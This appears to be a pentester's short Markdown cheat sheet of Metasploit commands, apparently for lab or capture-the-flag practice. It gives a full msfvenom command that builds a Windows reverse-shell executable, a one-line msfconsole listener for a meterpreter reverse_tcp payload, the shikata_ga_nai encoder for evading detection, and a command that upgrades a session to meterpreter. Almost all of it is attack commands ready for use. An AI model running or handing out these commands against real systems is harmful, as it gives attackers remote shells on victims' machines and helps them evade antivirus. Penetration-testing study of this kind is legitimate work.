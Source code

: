 # Metasploit commands

## Basics

basic msvenom reverse-shell payload:

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=tun0 LPORT=${PORT} -f exe -o shell
```

One-liner for setting up a listener
```
sudo msfconsole -q -x "use exploit/multi/handler; set PAYLOAD windows/x64/meterpreter/reverse_tcp; set LHOST tun0; set LPORT 6666; run"

```
## encoding

To see encoders available to you, use `msvenom -l encoders`.

Then, you can something like `-e x86/shikata_ga_nai` when creating the payload.

## Session handling

upgrade recent session to meterpreter session: `sessions -u -1`
